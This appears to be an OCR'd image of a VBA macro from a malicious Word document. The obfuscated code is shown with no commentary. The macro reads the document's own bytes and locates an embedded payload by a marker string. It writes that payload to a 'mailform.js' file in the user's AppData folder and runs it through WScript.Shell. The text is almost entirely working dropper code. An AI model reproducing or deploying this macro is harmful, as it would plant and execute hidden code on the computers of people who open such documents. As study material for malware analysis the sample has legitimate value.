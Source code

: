 ```vba
If chkDomain <> strUserDomain Then

Else

Dim gIvqmZwiW
Dim file_length As Long
Dim length As Long
file_length = FileLen(ActiveDocument.FullName)
gIvqmZwiW = FreeFile
Open (ActiveDocument.FullName) For Binary As #gIvqmZwiW
Dim CbkQJVeAG() As Byte
ReDim CbkQJVeAG(file_length)
Get #gIvqmZwiW, 1, CbkQJVeAG
Dim SwMbxtWpP As String
SwMbxtWpP = StrConv(CbkQJVeAG, vbUnicode)
Dim N34rtRBIU3yJO2cmMVu, I4j833DS5SFd34L3gwYQD
Dim vTxAnSEFH
    Set vTxAnSEFH = CreateObject("vbscript.regexp")
    vTxAnSEFH.Pattern = "sWcDWp36x5oIe2hJGnRy1iC92AcdQgO8RLioVZWlhCKJXHRSqO450AiqLZyLFeXYilCtorg0p3RdaoPa"
    Set I4j833DS5SFd34L3gwYQD = vTxAnSEFH.Execute(SwMbxtWpP)
Dim Y5t4Ul7o385qK4YDhr
If I4j833DS5SFd34L3gwYQD.Count = 0 Then
GoTo MnOWqnnpKXfRO
End If
For Each N34rtRBIU3yJO2cmMVu In I4j833DS5SFd34L3gwYQD
Y5t4Ul7o385qK4YDhr = N34rtRBIU3yJO2cmMVu.FirstIndex
Exit For
Next
Dim Wk4o3X7x1134j() As Byte
Dim KDXl18qY4rcT As Long
KDXl18qY4rcT = 13082
ReDim Wk4o3X7x1134j(KDXl18qY4rcT)
Get #gIvqmZwiW, Y5t4Ul7o385qK4YDhr + 81, Wk4o3X7x1134j
If Not JFqcfEGnc(Wk4o3X7x1134j(), KDXl18qY4rcT + 1) Then
GoTo MnOWqnnpKXfRO
End If
kWXlyKwVj = Environ("appdata") & "\Microsoft\Windows"
Set aMUsvgOin = CreateObject("Scripting.FileSystemObject")
If Not aMUsvgOin.FolderExists(kWXlyKwVj) Then
kWXlyKwVj = Environ("appdata")
End If
Set aMUsvgOin = Nothing
Dim K764B5Ph46Vh
K764B5Ph46Vh = FreeFile
IAiiymixt = kWXlyKwVj & "\" & "mailform.js"
Open (IAiiymixt) For Binary As #K764B5Ph46Vh
Put #K764B5Ph46Vh, 1, Wk4o3X7x1134j
Close #K764B5Ph46Vh
Erase Wk4o3X7x1134j
Set R66BpJMgxXBo2h = CreateObject("WScript.Shell")
R66BpJMgxXBo2h.Run """" + IAiiymixt + """" + " vF8rdgMHKBrvCoCp0ulm"
ActiveDocument.Save
Exit Sub
MnOWqnnpKXfRO:
Close #K764B5Ph46Vh
ActiveDocument.Save
End If
End Sub
```
